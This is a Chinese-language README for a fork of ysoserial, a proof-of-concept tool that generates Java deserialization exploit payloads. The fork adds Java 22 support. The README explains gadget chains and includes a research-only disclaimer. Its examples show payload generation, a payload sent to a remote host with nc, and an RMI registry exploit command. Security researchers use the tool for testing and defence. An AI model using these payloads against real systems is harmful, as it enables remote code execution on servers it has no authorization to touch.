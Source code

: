 # ysoserial

[![GitHub 最新版本](https://img.shields.io/github/downloads/frohoff/ysoserial/latest/total)](https://github.com/frohoff/ysoserial/releases/latest/download/ysoserial-all.jar)
[![Travis 构建状态](https://api.travis-ci.com/frohoff/ysoserial.svg?branch=master)](https://travis-ci.com/github/frohoff/ysoserial)
[![Appveyor 构建状态](https://ci.appveyor.com/api/projects/status/a8tbk9blgr3yut4g/branch/master?svg=true)](https://ci.appveyor.com/project/frohoff/ysoserial/branch/master)
[![JitPack](https://jitpack.io/v/frohoff/ysoserial.svg)](https://jitpack.io/#frohoff/ysoserial)

**ysoserial** 是一个用于生成利用 Java 对象反序列化漏洞的有效载荷（payload）的概念验证工具。

## 更新之处
 - 1. java版本更新为支持22版本。
 - 2. 可以使用以下命令自助编译打包。
```
mvn package -Dmaven.test.skip=true
```


![logo](ysoserial.png)

---

## 工具简介

ysoserial 最早在 AppSecCali 2015 演讲 ["Marshalling Pickles: how deserializing objects will ruin your day"](https://frohoff.github.io/appseccali-marshalling-pickles/) 中发布，包含适用于 Apache Commons Collections (3.x 和 4.x)、Spring Beans/Core (4.x) 和 Groovy (2.3.x) 的 gadget 链。后续版本增加了对 [JRE <= 1.7u21](https://gist.github.com/frohoff/24af7913611f8406eaf3) 和其他常见 Java 库的支持。

ysoserial 是一组利用流行 Java 库中的 "gadget 链" 的工具集合。这些 gadget 链可以在特定条件下，利用 Java 应用程序中不安全的对象反序列化操作。工具的主要功能是接收用户指定的命令，并通过指定的 gadget 链将其封装，然后将序列化结果输出到标准输出。当目标应用程序具有所需的 gadget 且执行了不安全的反序列化时，会触发命令在目标主机上执行。

**需要注意**：漏洞的根本原因是目标应用程序的不安全反序列化行为，而非 gadget 本身的存在。

---

## 免责声明

此软件仅供学术研究和开发有效防御技术之用。请勿将其用于未经授权的系统攻击。项目维护者对软件的误用不承担任何责任。请负责任地使用。

---

## 使用方法

```shell
$ java -jar ysoserial.jar
Y SO SERIAL?
Usage: java -jar ysoserial.jar [payload] '[command]'
  可用的 payload 类型：
     Payload             作者                      依赖
     -------             -------                  ------------
     AspectJWeaver       @Jang                    aspectjweaver:1.9.2, commons-collections:3.2.2
     BeanShell1          @pwntester, @cschneider4711 bsh:2.0b5
     ...
```

---

## 示例

```shell
# 使用 CommonsCollections1 生成命令 calc.exe 的 payload
$ java -jar ysoserial.jar CommonsCollections1 calc.exe | xxd

# 生成 Groovy1 类型 payload 并保存为文件
$ java -jar ysoserial.jar Groovy1 calc.exe > groovypayload.bin
$ nc 10.10.10.10 1099 < groovypayload.bin

# 利用 RMI 注册表漏洞执行 payload
$ java -cp ysoserial.jar ysoserial.exploit.RMIRegistryExploit myhost 1099 CommonsCollections1 calc.exe
```

---

## 安装

点击下载 [最新发布版本](https://github.com/frohoff/ysoserial/releases/latest/download/ysoserial-all.jar)。

---

## 构建

需要 Java 1.7+ 和 Maven 3.x+：

```shell
mvn clean package -DskipTests
```

---

## 代码状态

[![构建状态](https://api.travis-ci.com/frohoff/ysoserial.svg?branch=master)](https://travis-ci.com/github/frohoff/ysoserial)
[![构建状态](https://ci.appveyor.com/api/projects/status/a8tbk9blgr3yut4g/branch/master?svg=true)](https://ci.appveyor.com/project/frohoff/ysoserial/branch/master)

---

## 参与贡献

1. Fork 项目
2. 创建分支 (`git checkout -b my-new-feature`)
3. 提交更改 (`git commit -am '添加新功能'`)
4. 推送到分支 (`git push origin my-new-feature`)
5. 提交 Pull Request

---

## 相关资源

- [Java-Deserialization-Cheat-Sheet](https://github.com/GrrrDog/Java-Deserialization-Cheat-Sheet)：关于反序列化漏洞的信息、工具、博客等。
- [marshalsec](https://github.com/frohoff/marshalsec)：针对不同序列化格式/库的类似项目。
- [ysoserial.net](https://github.com/pwntester/ysoserial.net)：用于 .NET 反序列化的类似项目。
